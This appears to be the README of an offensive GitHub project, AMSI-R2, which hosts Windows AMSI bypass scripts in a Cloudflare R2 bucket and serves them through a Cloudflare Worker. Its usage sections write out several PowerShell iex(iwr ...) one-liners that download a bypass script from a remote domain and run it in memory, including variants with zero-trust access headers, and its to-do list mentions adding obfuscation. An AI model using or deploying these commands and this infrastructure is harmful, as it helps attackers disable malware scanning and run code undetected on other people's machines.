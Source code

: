 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket. If no "payload id" is given, the workers will select one randomly.

![random](./images/6.jpg)

![payload-id](./images/7.jpg)

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Fork or clone the project
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/).
- You don't have to do any modifcation in `wrangler.toml` (except if you want to change the name of your worker or if you don't want to use a custom domain). We are using Github secrets to setup the `wrangler.toml` file.

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
# fork the project
# setup secrets, R2, etc.
git clone https://github.com/<your-user>/AMSI-R2.git
cd AMSI-R2
# ...
git push -u origin main
# go see your workers in cloudflare interface
```

## How to use

```bash
# ex: random
curl "https://subdomain.yourdomain.com/<folder-name>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl "https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl "https://amsi-r2.example.com/amsibypass"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl "https://amsi-r2.example.com/amsibypass?payload=2"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl "https://amsi-r2.example.com/amsibypass" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl "https://amsi-r2.example.com/amsibypass?payload=2" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
